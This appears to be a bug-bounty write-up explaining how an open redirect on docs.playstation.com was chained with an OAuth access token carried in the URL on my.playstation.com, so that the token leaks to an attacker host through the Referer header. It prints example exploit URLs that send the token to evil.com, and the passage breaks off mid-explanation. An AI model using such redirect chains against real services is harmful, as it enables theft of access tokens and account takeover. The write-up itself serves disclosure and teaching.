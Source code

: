 - **Find an open redirect vulnerability.**

-  **Find a Token in the URL** (and hope is vulnerable too)

-  **browser has to  sends the full Referer Header for the Token Leakage**

-  The application has to accept this kind of url for the exploitation: 
	https://my.playstation.com/login/oauth?redirect_uri=


> **TL;DR Summary**

- Target: my.playstation.com
- Core Issue: Access token sent in Referer header during OAuth callback
- Exploit Chain:

1. Abuse docs.playstation.com for open redirection
2. Trick the OAuth flow into redirecting to a malicious endpoint
3. Leak the access token via the Referer header

- Reward: $3,000 bounty
- Category: Token Smuggling via Referer + Open Redirect

> **Step-by-Step Breakdown**

Step 1. Identify an Open Redirect

- The researcher began by testing PlayStation-owned domains for open redirects. They found this:

```bash
https://docs.playstation.com/redirect/?target=https://evil.com
```

It correctly redirected to [https://evil.com](https://evil.com). That's a red flag — open redirects are often downplayed unless you can chain them with sensitive flows.

Step 2. Find a Token in the URL

- Next, they explored the OAuth flow on my.playstation.com. After login, the site redirected back with an access token in the URL:

```perl
https://my.playstation.com/?access_token=XYZ123&state=abc
```

That access_token=XYZ123 was visible in the URL, which means it could be leaked via the **Referer header** if this page redirected the browser somewhere else.


Step 3. Smuggle the Token via Referer

- Here's where it gets clever.
- If my.playstation.com was redirected to a domain the researcher controlled, and if the browser sends the full Referer, **the researcher would get the whole URL** — including the token.

So they crafted this redirect chain:

```ruby
https://my.playstation.com/login/oauth?redirect_uri=https://docs.playstation.com/redirect/?target=https://evil.com
```

- Browser redirects to docs.playstation.com, which redirects to evil.com
- The Referer header sent to evil.com is:
